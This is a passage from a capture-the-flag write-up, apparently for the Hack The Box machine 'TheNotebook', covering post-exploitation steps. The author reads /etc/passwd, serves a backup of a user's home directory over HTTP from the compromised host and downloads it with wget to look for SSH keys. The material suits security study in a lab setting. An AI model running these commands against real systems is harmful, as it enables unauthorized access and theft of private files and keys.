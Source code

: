 ```
cat /etc/passwd
```
<br>I found there's just one normal user called noah and the root, so let's see how to escalate to noah.<br>
<br>let's see if there is a backup.<br>

 <br>After some searching, I found in var directory:<br>

<br>![](/assets/images/0x41ly-blog-img/thenotebook/13.png)<br>

<br>So, let's take it on our local machine and see what is inside it.
Fortunately, there is python3 on the remote machine.<br>

```
www-data@thenotebook:/var/backups$ which python3
which python3
/usr/bin/python3
www-data@thenotebook:/var/backups$ python3 -m http.server
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...


```
<br>On your local machine run :<br>
```
wget http://10.10.10.230:8000/home.tar.gz
tar -xzvf home.tar.gz
cd home/noah
ls -al
cd .ssh
ls -al
```
<br>The output looks like this:<br>
``` 
--2021-07-30 16:47:42--  http://10.10.10.230:8000/home.tar.gz
Connecting to 10.10.10.230:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4373 (4.3K) [application/gzip]
Saving to: ‘home.tar.gz.1’

home.tar.gz.1                           100%[============================================================================>]   4.27K  --.-KB/s    in 0.08s   

2021-07-30 16:47:43 (51.4 KB/s) - ‘home.tar.gz.1’ saved [4373/4373]

home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
```